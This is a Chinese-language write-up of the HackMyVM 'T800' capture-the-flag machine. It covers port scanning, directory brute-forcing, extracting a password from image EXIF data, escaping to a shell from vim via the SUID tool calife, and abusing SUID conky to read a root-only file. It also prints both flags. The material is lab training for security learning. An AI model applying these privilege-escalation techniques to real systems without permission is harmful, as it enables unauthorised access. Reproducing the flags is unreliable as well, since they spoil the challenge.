 # T800

2024-11-10 https://hackmyvm.eu/machines/machine.php?vm=T800

## IP

192.168.5.40

## Scan

```
PORT    STATE SERVICE
80/tcp  open  http
800/tcp open  mdbs_daemon
```

800 端口是 ssh 端口，先看 80 web 服务，首页是一张图片，html 源码中有注释： Im ruut ， 有一个潜在的用户名 ruut

http://192.168.5.39/robots.txt 访问提示 `/sexy/*.jpeg` , 所以对此目录进行专门的图片扫描：

```
gobuster dir -q -t 64 -e -k -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -x jpeg -u http://192.168.5.39/sexy/
```

扫描出一个图片 http://192.168.5.39/sexy/nudeslut.jpeg 将其下载，使用 exiftool 进行分析，得到密码：

```
exiftool nudeslut.jpeg

Comment : passwd:chmodxheart
```

使用上面最开始得到的用户名 ruut，尝试用密码 chmodxheart 登陆，成功。

在/home 目录中发现另外一个用户 superruut ，其目录中有 user flag，但是没有权限读取。

进行枚举，只发现了 2 个 suid 程序： /usr/bin/conky 和 /usr/bin/calife

使用 calife 可以切换到 superruut 用户：

```
/usr/bin/calife superruut
输入密码 chmodxheart

进入到了vim的编辑窗口，输入 :!/bin/bash 就进入到了 superruut 的shell环境
```

获得了 user flag：

```
superruut@t800:/home/superruut$ cat userflag.txt
ruutrulezhmv
```

现在寻找提权到 root 的路径，还有一个 suid 程序 conky 没有使用，这是一个系统监控工具，配置其配置文件，然后读取 root 的 id_rsa 文件：

```
conky.config = {
    out_to_console = true,
    out_to_x = false,
}

conky.text = [[
    ${tail /root/rootflag.txt 30}
]]
```

执行：

```
superruut@t800:/home/superruut$ /usr/bin/conky -c conf
hmvtitoroot
```
